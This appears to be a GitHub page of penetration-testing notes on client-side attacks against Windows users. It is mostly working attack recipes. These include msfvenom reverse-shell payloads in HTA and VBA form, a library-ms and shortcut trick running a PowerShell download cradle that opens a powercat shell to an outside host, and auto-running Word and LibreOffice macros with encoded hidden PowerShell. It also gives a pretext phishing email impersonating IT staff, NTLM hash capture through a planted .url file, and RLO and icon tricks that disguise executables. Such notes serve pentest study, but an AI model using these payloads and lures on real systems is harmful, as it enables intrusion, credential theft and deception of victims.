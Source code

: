 ### http application attack(works against Internet Explorer and to some extent Microsoft Edge)
```
1. msfvenom -p windows/shell_reverse_tcp(windows/x64/shell_reverse_tcp,windows/x64/meterpreter/reverse_tcp) LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o evil.hta
```

### office word macro development(vba script)
```
1. msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.4 LPORT=4444 -f vba -o evil
2. open word document and edit macro, copy paste then save as doc,docm
3. open a listener
```

### Evading Protected View
>This Microsoft Word document is highly effective when served locally, but when served from the Internet, say through an email or a download link, we must bypass another layer of protection known as Protected View,1 which disables all editing and modifications in the document and blocks the execution of macros or embedded objects.

### Windows library files
```
kali:
pip3 install wsgidav
mkdir /home/kali/webdav
touch /home/kali/webdav/test.txt
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/

Windows:
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2(LHOST)</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
Save as config.Library-ms

Create .Ink shotcut file with command:
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');powercat -c 192.168.119.3 -p 4444 -e powershell"
Save as automatic_configuration,put it in Lhost's webdav folder

Delivery config.Library-ms via email for triggering victim to click short link:

Hello! My name is Dwight, and I'm a new member of the IT Team.

This week I am completing some configurations we rolled out last week.
To make this easier, I've attached a file that will automatically
perform each step. Could you download the attachment, open the
directory, and double-click "automatic_configuration"? Once you
confirm the configuration in the window that appears, you're all done!

If you have any questions, or run into any problems, please let me
know!

Lhost: nc -nlvp 4444
Lhost: python3 -m http.server
```
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/ddb6330f-410c-4fd5-ad65-0baf3f7e9a96)
### Url File Fishing
```
1. Create file called "@hax.url" with following content:
[InternetShortcut]
URL=anything
WorkingDirectory=anything
IconFile=\\192.168.45.188(kali ip)\%USERNAME%.icon
IconIndex=1

2. if SMB share has write permission, upload @hax.url onto smb share
3. sudo responder -I tun0 -Av
Then you get ntlmv2 hash
```
### Office Macro Using Powershell base64 encoded reverse shell
1. Original Powershell Payload
```
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.181:8000/powercat.ps1');powercat -c 192.168.45.181 -p 4444 -e powershell
```
2.![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/1d716a30-3a3b-423a-bc1e-c0c3c346240e)
3. Using python to split and concatenate
```
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."
n = 50
for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```
4. Copy Macro script and convince victim to enable content
```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
```
### Change exe file ico
ResourceHacker
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/3560e67b-fdc4-44c5-995a-86e000b73f8b)
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/851d0cee-37ef-404d-8639-a2c9410fac59)


### Use RLO change file extension from exe into jpg
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/01bc9bde-67d9-46ec-8776-6a29bec48bed)
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/3a1260b7-3772-45f6-9f7f-1ea501814662)

### Libreoffice payload
```
REM  *****  BASIC  *****

Sub Main

	 Shell("cmd /c powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.45.166:8000/powercat.ps1');powercat -c 192.168.45.166 -p 80 -e powershell")

End Sub
```
```
Tools -> Options -> Security -> Macrosecurity -> Low  
Tools -> Customize -> OpenDocument -> Assign Macro
Tools -> Macro -> Organize Macro -> Basic -> choose the file -> New -> NewModuleName
Save as odt file
```
